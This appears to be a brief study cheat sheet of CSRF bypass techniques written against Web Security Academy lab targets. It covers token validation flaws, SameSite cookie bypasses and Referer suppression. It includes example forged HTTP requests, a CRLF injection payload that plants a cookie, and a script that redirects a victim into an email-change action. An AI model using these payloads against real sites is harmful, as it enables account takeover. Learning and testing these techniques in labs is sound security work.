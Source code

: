 

# Bypassing CSRF token validation

### Validation of CSRF token depends on request method

-try diffrent methods

### Validation of CSRF token depends on token being present

-remove paramter

### CSRF token is not tied to the user session

-obtain a token and use it

### CSRF token is tied to a non-session cookie

EX:
```
POST /email/change HTTP/1.1  
Host: vulnerable-website.com  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 68  
Cookie: session=pSJYSScWKpmC60LpFOAHKixuFuM4uXWF; csrfKey=rZHCnSzEp8dbI6atzagGoSYyqJqTz5dv  
  
csrf=RhV7yQDO0xcq9gLEah2WVbmuFqyOq7tY&email=wiener@normal-user.com
```


use crlf injection EX :

```
/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None
```


### CSRF token is simply duplicated in a cookie

-some applications do not maintain any server-side record of tokens that have been issued

-the application simply verifies that the token submitted in the request parameter matches the value submitted in the cookie-but

-instead duplicate each token within a cookie and a request parameter.

EX:
```
POST /email/change HTTP/1.1  
Host: vulnerable-website.com  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 68  
Cookie: session=1DQGdzYbOJQzLP7460tfyiv3do7MjyPw; csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa  
  
csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa&email=wiener@normal-user.com
```



# Bypassing SameSite cookie restrictions

### Bypassing SameSite Lax restrictions using GET requests

-craft get link

-method override

### Bypassing SameSite restrictions using on-site gadgets (Strict , Lax )

-find a gadget that results in a secondary request within the same site

EX : DOM-based open redirection.

```html
<script>  
document.location =```https://YOUR-LAB-ID.web-security-academy.net/post/comment/confirmation?  
postId=1/../../my-account/change-email?email=pwned%40web-security-academy.net%26submit=1```;  
</script>
```


### Bypassing SameSite restrictions via vulnerable sibling domains

-xss

-Cross-site WebSocket hijacking


# Bypassing Referer-based CSRF defenses

### Validation of Referer depends on header being present

 HTML page that hosts the CSRF attack contain:  
```html
<meta name="referrer" content="never">
```
